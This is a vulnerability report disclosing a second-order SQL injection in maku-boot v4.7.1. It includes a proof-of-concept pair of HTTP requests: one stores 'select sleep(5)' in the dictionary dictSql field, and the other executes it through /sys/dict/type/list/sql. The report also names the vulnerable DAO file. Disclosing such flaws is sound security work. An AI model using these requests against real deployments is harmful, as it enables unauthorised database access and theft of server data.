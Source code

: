 BUG_Author

Longlong Gong

# Project

Address: [maku-boot](https://gitee.com/makunet/maku-boot)

## SQL inject

###  `/sys/dict/type` `/sys/dict/type/list/sql` SQL inject

[Affected version]

v4.7.1



[Affected Component]

/sys/dict/type

/sys/dict/type/list/sql



[Software]

https://gitee.com/makunet/maku-boot/archive/refs/tags/v4.7.1.zip



[Description]

The Maku boot system v4.7.1 has a secondary injection vulnerability in the dictSQL parameter of the `/sys/dict/type ` interface, which allows SQL statements to be constructed and executed through `/sys/dict/type/list/SQL `. Hackers can exploit this vulnerability to obtain sensitive server information

POC

```
PUT /sys/dict/type HTTP/1.1
Host: localhost:8080
Content-Length: 200
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
Authorization: e60fda52a3914db289021127fa8803fe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Origin: http://localhost:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
Connection: close

{"id":1,"dictType":"post_status","dictName":"1","sort":0,"pid":null,"dictSource":1,"dictSql":"select sleep(5)","remark":"1","createTime":"2025-03-04 22:09:20","updateTime":"2025-03-04 23:17:54","hasChild":0}
```

```
GET /sys/dict/type/list/sql?id=1 HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/plain, */*
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
Authorization: e60fda52a3914db289021127fa8803fe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
Connection: close


```

System Settings ->Data Dictionary ->Modify ->Dynamic SQL, add SQL statements, click on Dynamic Data Execution

![image-20250304234209327](assets/image-20250304234209327.png)

![image-20250304234234773](assets/image-20250304234234773.png)

![image-20250304234314957](assets/image-20250304234314957.png)

maku-boot-v4.7.1\maku-boot-system\src\main\java\net\maku\system\dao\SysDictDataDao.java

![image-20250304234529278](assets/image-20250304234529278.png)

![image-20250304234614611](assets/image-20250304234614611.png)

![image-20250304234631087](assets/image-20250304234631087.png)
